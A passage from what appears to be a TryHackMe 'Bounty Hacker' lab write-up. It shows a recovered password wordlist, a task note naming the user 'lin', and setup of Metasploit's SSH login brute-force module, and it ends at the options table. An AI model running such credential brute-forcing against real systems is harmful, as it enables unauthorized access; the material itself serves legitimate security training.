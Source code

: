 ```
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

```
kali@kali:~/Desktop/thm/bountyhacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

It looks like we have a wordlist along with a username (lin) to go along with it. We can now answer the first question TryHackMe has for this box:

```
Who wrote the task list? 
> lin
```

## Bruteforcing SSH

In my experience, bruteforcing SSH has almost never been the answer, although the question asked by TryHackMe heavily imples it. We have a wordlist and a username, so I will use a metasploit module with the information I have.

There is a metapsploit module named ``auxiliary/scanner/ssh/ssh_login`` which we can configure to use our wordlist and the username ``lin``.

I'll fire up metasploit with ``msfconsole`` and use the module by typing ``use auxiliary/scanner/ssh/ssh_login``. 

Now let's see what we need to configure:

```
msf5 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
```